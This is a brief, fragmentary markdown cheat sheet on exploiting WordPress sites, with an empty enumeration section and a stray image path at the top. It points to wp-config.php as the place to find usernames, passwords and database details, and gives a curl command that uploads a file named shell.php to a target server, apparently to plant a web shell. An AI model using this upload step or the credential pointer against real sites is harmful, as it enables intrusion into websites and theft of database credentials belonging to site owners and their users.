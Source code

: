 # Wordpress Exploitation

## Files
`wp-config.php` - Usernames & Passwords, Database

## Enumeration

## Arbitrary File Includes
Place a file on the remote server using cURL.
```
curl -F 'Filedata=@shell.php' domain.com/filelocation
```


